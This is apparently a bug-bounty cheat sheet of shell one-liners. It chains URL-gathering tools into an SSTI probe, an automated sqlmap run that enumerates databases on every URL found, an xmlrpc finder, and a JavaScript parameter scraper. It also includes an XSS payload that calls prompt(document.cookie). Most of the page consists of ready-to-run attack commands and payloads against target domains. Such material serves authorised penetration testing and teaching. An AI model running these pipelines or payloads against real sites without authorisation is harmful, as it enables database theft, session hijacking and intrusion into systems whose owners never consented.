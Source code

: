 #### Find P1 Bug in a minute

**For Checking SSTI Vulnerability..**

```
cat urls.txt |gau -subs|grep '='| egrep -v '(.js|.png|.svg|.gif|.jpg|.jpeg|.txt|.css|.ico)'|qsreplace "ssti{{7*7}}" | while read url;do cur=$(curl -s $url | grep "ssti49"); echo -e "$url -> $cur";done
```

Output: https://example.com/?s=ssti\{{7\*7\}} -> ssti49 --> Means Vulnerable

#### Check sqli Vulnerability in One shot of domains & subdomains

```
cat urls.txt | gau | egrep -v '(.js|.png|.svg|.gif|.jpg|.jpeg|.txt)' | gf sqli|urlive|tee sqli.txt && sqlmap -m sqli.txt --dbs --batch
```

#### Find xmlrpc in single shot on domain & subdomains.

```
cat domains.txt | assetfinder --subs-only | httprobe| while read url; do xml=$(curl -s -L $url/xmlrpc.php|grep 'XML-RPC');echo -e "$url -> $xml";done | grep 'XML-RPC' |sort -u
```

Output: https://example.com -> XML-RPC server accepts POST requests only

#### JSFScan.sh usage

```
bash JSFScan.sh -l targets.txt --all -r -o filname
```

#### XSS Normal test input

```
"><u>Xalgord</u><marquee onstart='prompt(document.cookie)';>XSS</marquee>
```

***

### **Mobile App Testing Guide:**

* **Android:** [Intercept traffic with BurpSuite](https://www.youtube.com/watch?v=xp8ufidc514).
* **iOS:** [Proxy traffic using BurpSuite](https://www.youtube.com/watch?v=VVQtVeUxcdM).

### Find hidden GET parameters in JS files

{% code overflow="wrap" %}
```bash
assetfinder example.com | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"; done
```
{% endcode %}
